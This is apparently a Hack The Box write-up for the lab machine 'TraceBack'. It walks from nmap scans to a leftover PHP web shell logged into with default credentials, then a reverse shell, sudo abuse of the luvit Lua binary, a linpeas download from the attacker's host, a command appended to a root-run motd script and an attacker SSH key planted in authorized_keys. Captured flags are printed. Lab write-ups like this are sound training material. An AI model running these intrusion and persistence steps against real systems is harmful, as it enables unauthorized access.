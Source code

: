 # TraceBack

## HOST IP: 10.129.225.142

# RECON SERVICE

Performed an Nmap scan to identify active services on the host

```bash
┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 10.129.225.142
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# nmap -sV -sC -oA nmap/TraceBack 10.129.225.142 -p 22,80
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

22 ssh OpenSSH 7.6p1  
80 http Apache httpd 2.4.29

![alt text](img/image.png)

It appears that the host may have been previously compromised. Attempting to identify any potential backdoors.
![alt text](img/image-1.png)
Discovered a GitHub repository described 'Some of the Best Web Shells That You Might Need'

> https://github.com/TheBinitGhimire/Web-Shells

# EXPLOIT

Identified a list of PHP web shells, and confirmed that the page http://10.129.225.142/smevk.php is accessible.

![alt text](img/image-2.png)
Attempted to log in to the web shell using the default credentials (admin:admin), which successfully granted access.
![alt text](img/image-3.png)

Entered a reverse shell command in the web shell console and successfully established a connection to the attacker's host.

![alt text](img/image-4.png)

# POST EXPLOIT

Upgraded the shell to an interactive TTY session using the stty command.

```bash
webadmin@traceback:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml$ python3 -c 'import pty;pty.spawn("/bin/bash")'
webadmin@traceback:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 9999

┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# stty raw -echo;fg
[1]  + continued  nc -nlvp 9999

webadmin@traceback:/var/www/html$


```

Identified the /home/sysadmin/luvit binary, which can be executed with sysadmin privileges.

```bash
webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.


webadmin@traceback:/var/www/html$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit

```

The luvit binary can execute Lua code, allowing privilege escalation to the sysadmin user

```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/bash")
sysadmin@traceback:/home/webadmin$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)

sysadmin@traceback:~$ cat user.txt
a4219219241480f30ec1d7c9b767d6b7
```

I can get sysadmin privilege and get userflag

run linpeas for recon privilege escaltion point

```bash
┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# wget https://github.com/peass-ng/PEASS-ng/releases/download/20250801-03e73bf3/linpeas.sh


sysadmin@traceback:/tmp$ wget http://10.10.14.76:7777/linpeas.sh
sysadmin@traceback:/tmp$ chmod +x linpeas.sh


╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
  Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt

echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
```

By initiating an SSH session, it was possible to execute code with root flag.  
Replaced the sysadmin user’s public key with the attacker’s public key to enable unauthorized SSH access.

```bash
sysadmin@traceback:~/.ssh$ echo 'ssh-ed25519 <mypublic key> root@kali' >  authorized_keys

┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# ssh sysadmin@10.129.21.92
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

9c6079accc3a07a5ab365e4a12882ecb

```

Retrieved the root flag from the target system.
![alt text](img/image-5.png)
